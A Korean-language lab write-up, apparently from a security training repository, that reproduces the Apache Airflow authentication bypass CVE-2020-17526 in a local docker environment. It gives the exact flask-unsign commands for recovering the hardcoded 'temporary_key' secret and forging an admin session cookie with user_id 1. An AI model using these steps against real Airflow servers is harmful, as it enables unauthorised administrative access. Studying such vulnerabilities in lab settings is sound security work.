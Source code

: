 # Apache Airflow Authentication Bypass (CVE-2020-17526)

화이트햇스쿨 3기 32반 김나희<br><br><br>

## 1. 요약
- Apache Airflow는 오픈소스 워크플로우 관리 플랫폼으로, 언제 어떤 작업을 실행할지 미리 정해 자동으로 돌려주는 프로그램이다. 기본적으로 인증 기능이 비활성화되어 있지만, 관리자가 webserver.authenticate=True로 활성화할 수 있다.
- Airflow 1.10.13 이전 버전에서는 세션 정보를 서명하는 데 사용되는 비밀 키가 temporary_key 라는 고정된 값으로 설정되어 있었다. 따라서 공격자가 이를 악용해 임의의 사용자로 가장하여 인증을 우회할 수 있는 취약점이 존재했다.<br><br><br><br><br>

## 2. 환경 구성
- git clone https://github.com/umsienrt/kr-vulhub.git
- cd kr-vulhub/CVE-2020-17526
- docker compose run airflow-init
- docker compose up -d
- Flask Unsign 설치 → 세션 키 해독 용도<br><br><br><br><br>


## 3. PoC
![img1](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img1.png?raw=true)
- http://your-ip:8080 으로 접속하면 로그인 페이지가 나온다.<br><br><br><br>
![img2](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img2.png?raw=true)
- curl -v http://localhost:8080/admin/airflow/login
- Set-Cookie→session에서 세션 키 정보를 알 수 있다.<br><br><br><br>
![img3](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img3.png?raw=true)
- 개발자 도구 → Application → Cookies → http://127.0.0.1:8080 에서 전체 세션 키 정보를 확인할 수 있다.<br><br><br>
![img4](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img4.png?raw=true)
- flask-unsign -u -c  세션 키 값
- flask-unsign을 이용해서 세션 키를 해독하면 ‘temporary key’ 가 나온다.<br><br><br><br>
![img5](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img5.png?raw=true)
- flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}”
- user_id가 1인 새 세션을 생성한다.<br><br><br><br>
![img6](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img6.png?raw=true)
- 개발자 도구에서 session의 value값에 앞서 새롭게 생성된 세션 값을 삽입한다.<br><br><br><br><br>


## 결과
![img7](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img7.png?raw=true)

